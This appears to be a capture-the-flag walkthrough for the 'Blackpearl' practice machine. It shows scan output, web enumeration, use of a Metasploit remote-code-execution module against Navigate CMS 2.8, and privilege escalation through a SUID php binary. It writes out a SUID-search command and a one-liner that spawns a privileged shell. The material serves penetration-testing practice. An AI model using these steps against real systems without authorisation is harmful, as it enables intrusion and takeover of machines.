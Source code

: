 # 11.5 Blackpearl

## Arp scan
```bash
192.168.17.3    08:00:27:54:9d:36       PCS Systemtechnik GmbH
192.168.17.11   08:00:27:04:74:be       PCS Systemtechnik GmbH
```

## Nmap
```bash
# Nmap 7.91 scan initiated Sun Sep 19 10:10:30 2021 as: nmap -T4 -A -p- -oN nmap/scan 192.168.17.11
Nmap scan report for 192.168.17.11
Host is up (0.00076s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 66:38:14:50:ae:7d:ab:39:72:bf:41:9c:39:25:1a:0f (RSA)
|   256 a6:2e:77:71:c6:49:6f:d5:73:e9:22:7d:8b:1c:a9:c6 (ECDSA)
|_  256 89:0b:73:c1:53:c8:e1:88:5e:c3:16:de:d1:e5:26:0d (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome to nginx!
MAC Address: 08:00:27:04:74:BE (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.76 ms 192.168.17.11

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 19 10:10:55 2021 -- 1 IP address (1 host up) scanned in 25.69 seconds

```

## Enumeration
- Visiting the site and viewing the source code provides us with the webmaster email: alek@blackpearl.tcm
![[Pasted image 20210919171514.png]]

## Fuzzing 
![[Pasted image 20210919171922.png]]

- Message found in "secret" file:
```txt
OMG you got r00t !


Just kidding... search somewhere else. Directory busting won't give anything.

<This message is here so that you don't waste more time directory busting this particular website.>

- Alek 
```

`dnsrecon -r 12.0.0.0/24 -n 192.168.17.11 -d blah`

- Update /etc/hosts
- Fuzz the website to find /navigate directory
- Find navigate cms 2.8 on blackpearl.tcm
## Researching Vulnerabilities
- Search for navigate cms 2.8 exploits
- Find metasploit module `exploit/multi/http/navigate_cms_rce`
Reference: https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/

## Exploitation
- Use msf module
- Be sure to set rhosts as IP and Vhost as blackpearl.tcm
- Exploit

## Priv-esc
- Run `sudo -l` is a no-go
- Run linpeas and discover unknown SUID binary 'php7.3'
- We can find the same using the following command: `find / -type f -perm -4000 2>/dev/null`
- GTFO bin it: 
`/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"`
- We are root